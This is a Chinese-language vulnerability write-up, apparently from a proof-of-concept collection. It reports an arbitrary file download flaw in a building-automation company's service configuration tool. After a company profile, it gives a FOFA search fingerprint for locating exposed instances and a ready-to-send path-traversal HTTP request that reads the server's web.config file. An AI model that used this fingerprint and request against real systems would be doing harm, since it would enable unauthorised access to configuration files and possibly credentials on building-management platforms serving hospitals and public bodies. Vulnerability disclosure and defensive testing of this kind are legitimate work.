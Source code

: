 # 安徽生命港湾信息技术有限公司服务配置工具存在任意文件下载漏洞

# 一、漏洞简介
安徽生命港湾信息技术有限公司，成立于2020年7月。以“产品+解决方案+服务”引领技术、运营模式创新，是以楼宇自控产品（BA)、软件平台(IBMS)、数字建筑、物联网系统(AIoT)为核心技术驱动的创新型技术企业，致力于智慧建筑、物联网系统产品研发、制造，产品涵盖IBMS平台软件、边缘计算网关、物联网数据中台、楼宇自控设备、执行器、传感器等。凭借技术团队多年的行业耕耘及深入场景的产品设计和创新，以IBMS为可视化运维管理平台，将物联网数据采集、大数据与IBMS融合，实现安防、医疗、楼宇自控、能源、园区、环境、城市、应急等智慧控制管理功能，为医院、园区、教育、政务、轨道交通等行业提供智慧建筑全生态解决方案。安徽生命港湾信息技术有限公司服务配置工具存在任意文件下载漏洞

# 二、影响版本
+ 服务配置工具

# 三、资产测绘
+ fofa：`body="css/markdown.css" && body="icon-512.png"`
+ 特征

![1733591983248-8301dd73-b583-47cd-aacc-864c5214c282.png](./img/PNMBjNOeHcnDPE9f/1733591983248-8301dd73-b583-47cd-aacc-864c5214c282-414402.png)

# 四、漏洞复现
```java
GET /api/File/Download?file=../web.config HTTP/1.1
Host: 
Priority: u=0, i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1

```

![1733592027293-51775f39-1fc6-48dc-8b13-194bf5dba413.png](./img/PNMBjNOeHcnDPE9f/1733592027293-51775f39-1fc6-48dc-8b13-194bf5dba413-711997.png)



> 更新: 2024-12-20 14:53:54  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/zd3swwh4v3saweol>